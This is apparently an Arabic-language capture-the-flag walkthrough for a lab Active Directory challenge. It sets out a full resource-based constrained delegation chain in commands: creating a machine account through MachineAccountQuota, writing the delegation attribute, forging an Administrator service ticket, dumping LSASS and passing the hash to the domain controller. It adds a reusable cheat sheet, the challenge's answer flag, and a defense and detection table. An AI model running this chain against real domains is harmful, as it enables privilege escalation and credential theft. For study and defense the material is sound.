

# دليل تحدي التقدم: Forward (Challenge) — استغلال تفويض كيربيروس المعتمد على المورد (RBCD)
**المسار التعليمي:** Jr Penetration Tester | **الوحدة 14:** أساسيات اختبار اختراق الدليل النشط (Active Directory)

---

## 1. نظرة عامة على الغرفة (Room Overview)

تعد غرفة **Forward** (المعرف المصدري المعتمد: `forwardchallenge`) التحدي العملي الأخير والأكثر تقدماً في وحدة اختبار اختراق الدليل النشط. تم تصميم التحدي بنمط **الافتراض المسبق للاختراق (Assumed Breach Scenario)**؛ حيث يُمنح مختبر الاختراق حساب مستخدم نطاق عادي (`ctf.local\j.smith` / `JSmith@IT2024`)، ويُطلب منه التقدم والتصعيد للسيطرة الكاملة على النطاق.

يركز التحدي على استغلال واحدة من أقوى ثغرات التكوين في بيئات Active Directory الحديثة: **التفويض المقيد المعتمد على المورد (Resource-Based Constrained Delegation - RBCD)**، ودمجها مع استغلال ميزة **حصة حسابات الأجهزة (MachineAccountQuota)** وسرقة التذاكر من الذاكرة للوصول إلى صلاحيات مدير النطاق (Domain Admin).

---

## 2. أهداف التعلم والتحدي (Learning Objectives)

بنهاية حل هذا التحدي وتحليل مسار الهجوم، يكتسب مختبر الاختراق الكفاءات التالية:
- **فهم معمارية RBCD واختلافها عن التفويض التقليدي:** دراسة السمة الثنائية `msDS-AllowedToActOnBehalfOfOtherIdentity` وكيف يمنح حق التعديل عليها صلاحية التصعيد دون الحاجة لتدخل Domain Admin.
- **استغلال MachineAccountQuota (MAQ):** استخدام أداة `addcomputer.py` لإنشاء حساب جهاز نطاق عشوائي تحت سيطرة المهاجم يحمل اسم خدمة (SPN).
- **حقن الواصف الأمني (Security Descriptor Injection):** استخدام أداة `rbcd.py` لكتابة تصريح وصول (ACE) يسمح للجهاز المزيف بالتفويض على خادم الهدف.
- **توليد تذاكر كيربيروس بصلاحيات إدارية:** تشغيل أداة `getST.py` لتنفيذ طلبي `S4U2self` و `S4U2proxy` لاستخراج تذكرة خدمة بصلاحيات `Administrator`.
- **الانتقال الجانبي وسرقة بيانات الاعتماد من الذاكرة:** اقتحام الخادم الوسيط وسحب تجزئات أو تذاكر جلسة Domain Admin النشطة في ذاكرة LSASS.
- **السيطرة التامة على متحكم النطاق:** تنفيذ هجوم Pass-the-Hash أو Pass-the-Ticket للسيطرة على `DC.ctf.local` وقراءة الراية.

---

## 3. الطوبولوجيا المعمارية وسيناريو التحدي (Architectural Topology)

```mermaid
flowchart TB
    subgraph Attack_Zone ["منطقة المهاجم (Attack Infrastructure)"]
        AttackBox["جهاز المهاجم (AttackBox / Kali Linux)<br/>• addcomputer.py (إنشاء ATTACKPC$)<br/>• rbcd.py (حقن DACL التفويض)<br/>• getST.py (تزوير تذكرة S4U)<br/>• psexec.py"]
    end

    subgraph Lab_Network ["بيئة النطاق الهدف (ctf.local)"]
        KDC["متحكم النطاق (DC.ctf.local)<br/>• يتيح حصة الأجهزة MAQ=10<br/>• يعالج طلبات كيربيروس والتفويض<br/>• الهدف النهائي: Administrator Desktop"]
        
        FileSrv["الخادم الوسيط (FILESRV.ctf.local)<br/>• يمتلك j.smith صلاحية GenericWrite عليه<br/>• السمة المعدلة: msDS-AllowedToActOnBehalfOfOtherIdentity<br/>• يحتوي على جلسة Domain Admin نشطة في الذاكرة"]
        
        FakePC["الجهاز المزيف (ATTACKPC$)<br/>• تم إنشاؤه بحساب j.smith<br/>• يمتلك SPN ويشارك في مصافحة كيربيروس"]
    end

    AttackBox ==>|1. استخدام MAQ لإنشاء حساب الجهاز| KDC
    KDC -->> FakePC
    AttackBox ==>|2. تعديل DACL عبر GenericWrite| FileSrv
    AttackBox -.->|3. طلب تذكرة S4U2self/proxy لـ FILESRV| KDC
    KDC -->>|4. تسليم تذكرة Administrator| AttackBox
    AttackBox ==>|5. اختراق وسرقة تجزئة DA من LSASS| FileSrv
    AttackBox ==>|6. Pass-the-Hash والسيطرة التامة| KDC
```

### بيانات الحسابات والهدف:
- **النطاق المستهدف:** `ctf.local`
- **حساب البداية:** `ctf.local\j.smith` (كلمة المرور: `JSmith@IT2024`)
- **الجهاز المزيف المنشأ:** `ATTACKPC$` (كلمة المرور: `ComputerP@ss123!`)
- **الخادم المستهدف للتفويض:** `FILESRV$` (`FILESRV.ctf.local`)
- **متحكم النطاق:** `DC.ctf.local`
- **الراية النهائية المستخرجة:** `THM{RBCD_S4U2Pr0xy_T1ck3t_Th3ft_2_DA}`

---

## 4. الخلفية التقنية والتعمق المفاهيمي (Technical Background)

### لماذا يعد هجوم RBCD بالغ الخطورة؟
1. **اللامركزية:** في التفويض التقليدي، يحتاج تفعيل التفويض إلى موافقة وصلاحيات مدير النطاق عبر تفعيل علم في `userAccountControl`. أما في RBCD، فالتحكم موجود في السمة `msDS-AllowedToActOnBehalfOfOtherIdentity` الموجودة على كائن الكمبيوتر الهدف نفسه.
2. **صلاحيات الوصول (ACLs):** في العديد من المؤسسات، تُمنح فرق الدعم الفني (IT Support) صلاحيات `GenericWrite` أو `WriteProperty` على أجهزة الكمبيوتر دون إدراك أن هذه الصلاحية تعادل السيطرة الكاملة عبر RBCD.
3. **حصة الأجهزة (MachineAccountQuota):** القيمة الافتراضية لمايكروسوفت هي `10`، مما يسمح لأي مستخدم عادي بإنشاء 10 أجهزة كمبيوتر. يحتاج هجوم RBCD إلى حساب جهاز يمتلك SPN، وتوفر حصة MAQ هذه الميزة على طبق من ذهب للمهاجم.

---

## 5. خطوات الهجوم والتنفيذ العملي الممنهج

### الخطوة 1: استكشاف صلاحيات j.smith وحصة MAQ:
```bash
nxc ldap DC_IP -u j.smith -p 'JSmith@IT2024' -M maq
```
أظهرت النتائج أن قيمة `MachineAccountQuota` تساوي `10`، وأن حساب `j.smith` يمتلك صلاحية `GenericWrite` على كائن الجهاز `FILESRV$`.

### الخطوة 2: إنشاء حساب جهاز كمبيوتر جديد عبر addcomputer.py:
```bash
addcomputer.py -computer-name 'ATTACKPC$' -computer-pass 'ComputerP@ss123!' -domain-netbios CTF 'ctf.local/j.smith:JSmith@IT2024'
```
النتيجة: إنشاء حساب `ATTACKPC$` بنجاح داخل النطاق.

### الخطوة 3: تعديل واصف الأمان عبر rbcd.py:
نقوم بحقن SID الخاص بالجهاز `ATTACKPC$` داخل سمة `msDS-AllowedToActOnBehalfOfOtherIdentity` للخادم `FILESRV$`:
```bash
rbcd.py -delegate-to 'FILESRV$' -delegate-from 'ATTACKPC$' -action 'write' 'ctf.local/j.smith:JSmith@IT2024'
```
النتيجة: تعديل صلاحيات التفويض بنجاح.

### الخطوة 4: تزوير تذكرة خدمة لـ FILESRV عبر getST.py:
نطلب تذكرة خدمة لـ `cifs/FILESRV.ctf.local` منتحلين شخصية `Administrator`:
```bash
getST.py -spn cifs/FILESRV.ctf.local -impersonate Administrator 'ctf.local/ATTACKPC$:ComputerP@ss123!'
```
النتيجة: حفظ تذكرة كيربيروس في ملف `Administrator.ccache`.

### الخطوة 5: اختراق FILESRV وسرقة تجزئة Domain Admin:
```bash
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass ctf.local/Administrator@FILESRV.ctf.local
```
بعد الدخول بصلاحيات `SYSTEM` على `FILESRV`، تم استخراج تجزئات الذاكرة عبر Mimikatz من جلسة مدير النطاق العالقة في ذاكرة LSASS والحصول على تجزئة Domain Admin.

### الخطوة 6: السيطرة على متحكم النطاق وقراءة الراية:
باستخدام تجزئة مدير النطاق، تم الاتصال بمتحكم النطاق `DC.ctf.local`:
```bash
psexec.py ctf.local/Administrator@DC.ctf.local -hashes :[DA_NTLM_HASH]
```
وقراءة الراية من سطح المكتب:
```cmd
C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
THM{RBCD_S4U2Pr0xy_T1ck3t_Th3ft_2_DA}
```

---

## 6. مسار الهجوم الشامل وسلسلة القتل (Comprehensive Attack Flow)



---

## 7. استراتيجيات الدفاع والتحصين والكشف (Defense & Hardening)

| مجال الحماية | الإجراء الوقائي الموصى به | آلية الكشف والمراقبة (Detection) |
|---|---|---|
| **تصفير حصة الأجهزة (MAQ)** | تعديل قيمة `ms-DS-MachineAccountQuota` إلى **`0`** في النطاق بالكامل لمنع المستخدمين من إنشاء أجهزة كمبيوتر. | مراقبة سجل الأمان للحدث **Event ID 4741** (إنشاء حساب كمبيوتر جديد). |
| **تدقيق سمة RBCD** | المراقبة المستمرة لأي تعديل على سمة `msDS-AllowedToActOnBehalfOfOtherIdentity` على كائنات الأجهزة. | تفعيل تدقيق التغييرات على الدليل ورصد الحدث **Event ID 4662**. |
| **تقييد صلاحيات ACLs** | حصر صلاحيات `GenericWrite` و `WriteProperty` على مجموعات الإدارة المركزية وتجريد حسابات الدعم الفني منها. | فحص دوري لعلاقات BloodHound للكشف عن مسارات `WriteDacl` و `GenericWrite`. |
| **حماية حسابات الإدارة العليا** | وضع حسابات مديري النطاق في مجموعة **`Protected Users`** لمنع تفويض تذاكرهم. | رصد محاولات طلب تذاكر S4U2self لحسابات إدارية (**Event ID 4769**). |
| **منع ترك الجلسات في الذاكرة** | تطبيق نموذج الطبقات (Tiered Administration) ومنع تسجيل دخول Domain Admins على خوادم الملفات (Tier 1). | إطلاق تنبيهات فورية عند اكتشاف جلسات تفاعلية لحسابات Tier 0 على أنظمة Tier 1. |

---

## 8. ملخص المهام وجدول الإجابات النموذجية (Tasks Summary)

| رقم المهمة | عنوان المهمة | السؤال | الإجابة الموثقة والنهائية | حالة التحقق |
|:---:|---|---|---|:---:|
| **01** | Forward | What's the Administrator flag? | `THM{RBCD_S4U2Pr0xy_T1ck3t_Th3ft_2_DA}` | محققة ومؤكدة |

---

## 9. ورقة مساعدة الأوامر والأدوات (Tool Cheat Sheet)

```bash
# 1. فحص حصة حسابات الأجهزة (MAQ) في النطاق:
nxc ldap DC_IP -u username -p password -M maq

# 2. إنشاء حساب جهاز كمبيوتر جديد:
addcomputer.py -computer-name 'ATTACKPC$' -computer-pass 'Password123!' -domain-netbios DOMAIN 'domain.local/user:password'

# 3. تكوين تفويض RBCD على الهدف:
rbcd.py -delegate-to 'TARGET$' -delegate-from 'ATTACKPC$' -action 'write' 'domain.local/user:password'

# 4. تزوير تذكرة خدمة بصلاحيات Administrator عبر getST.py:
getST.py -spn cifs/TARGET.domain.local -impersonate Administrator 'domain.local/ATTACKPC$:Password123!'

# 5. تصدير التذكرة والاتصال بالهدف:
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass domain.local/Administrator@TARGET.domain.local

# 6. تصفير حصة MAQ في بيئة الإنتاج لمنع الهجوم (PowerShell):
Set-ADDomain -Identity domain.local -Replace @{'ms-DS-MachineAccountQuota'=0}
```

---

## 10. التحقق العملي وإثبات الإنجاز (Practical Verification)

1. تم إنشاء الحساب `ATTACKPC$` بنجاح عبر استغلال `ms-DS-MachineAccountQuota`.
2. تم تعديل واصف الأمان للخادم `FILESRV$` بنجاح عبر أداة `rbcd.py`.
3. تم توليد تذكرة خدمة `cifs/FILESRV.ctf.local` باسم `Administrator` بنجاح.
4. تم اقتحام الخادم واستخراج تجزئة Domain Admin من ذاكرة LSASS.
5. تم الاتصال بمتحكم النطاق وقراءة الراية ومطابقتها: `THM{RBCD_S4U2Pr0xy_T1ck3t_Th3ft_2_DA}`.

---

## 11. الدروس المستفادة والقواعد الذهبية (Key Takeaways)

> **القاعدة الذهبية الأولى:** حصة الأجهزة الافتراضية (`MAQ=10`) هي ثغرة أمنية نائمة في كل بيئة Active Directory لم تُصلح بعد؛ اضبطها فوراً على القيمة `0`.
>
> **القاعدة الذهبية الثانية:** صلاحيات الـ ACL أخطر من الثغرات البرمجية؛ امتلاك صلاحية `GenericWrite` على جهاز كمبيوتر واحد في النطاق يعني امتلاك الجهاز بالكامل عبر RBCD دون الحاجة لأي ثغرة برمجية.
>
> **القاعدة الذهبية الثالثة:** لا تترك أثراً لجلساتك؛ تسجيل دخول Domain Admin على خادم ملفات فرعي يترك بيانات اعتماده في الذاكرة العشوائية لقمة سائغة لأي مهاجم يصل إلى صلاحيات النظام على ذلك الخادم.
